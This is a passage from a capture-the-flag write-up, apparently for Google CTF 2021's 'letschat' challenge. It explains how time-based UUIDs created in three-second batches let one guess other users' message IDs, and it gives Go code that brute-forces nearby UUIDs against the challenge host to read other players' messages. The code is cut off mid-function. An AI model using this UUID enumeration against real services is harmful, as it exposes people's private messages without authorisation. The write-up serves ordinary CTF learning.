 It looks like every three seconds something is happening and a batch of UUIDs are being created very close together. But why the small variability in the same batch? Perhaps there are other people's messages in the same batch as your messages? You could confirm this by creating another account and checking if they receive UUIDs in the same batch.

Also notice that the batches are almost exactly 3 seconds apart (+- 6500 hundred nanoseconds increments). This means that we can guess any UUID created in the past within a range of less than 10k.

## Solution

Now we know that we can trivially read other players messages, let's see if there are any interesting messages sent in the same batch as our messages. The code below searches +-100 UUIDs from our base UUID:

```golang
package main

import (
	"fmt"
	"strings"
	"sync"

	"io/ioutil"
	"net/http"

	"encoding/binary"
	"encoding/hex"

	"github.com/google/uuid"
)

func main() {
	ids := []string{
		"3308548f-e985-11eb-b0ba-5e91c0efb80a",
		"313e98f1-e985-11eb-b0ba-5e91c0efb80a",
		"2f74bc3f-e985-11eb-b0ba-5e91c0efb80a",
		"2daafb20-e985-11eb-b0ba-5e91c0efb80a",
		"2be13ed2-e985-11eb-b0ba-5e91c0efb80a",
	}
	for _, id := range ids {
		uid, _ := uuid.Parse(id)
		wg := &sync.WaitGroup{}
		for j := 1; j < 100; j++ {
			wg.Add(2)
			go guess(encodeHex(uid, j), wg)
			go guess(encodeHex(uid, -j), wg)
		}
		wg.Wait()
	}
}

func guess(id string, wg *sync.WaitGroup) {
	defer wg.Done()
	req, _ := http.NewRequest("GET", fmt.Sprintf("http://letschat-messages-web.2021.ctfcompetition.com/%s", id), nil)
	client := &http.Client{}
	resp, err := client.Do(req)
	if err != nil {
		fmt.Println(err)
		return
	}
	defer resp.Body.Close()
	body, _ := ioutil.ReadAll(resp.Body)
```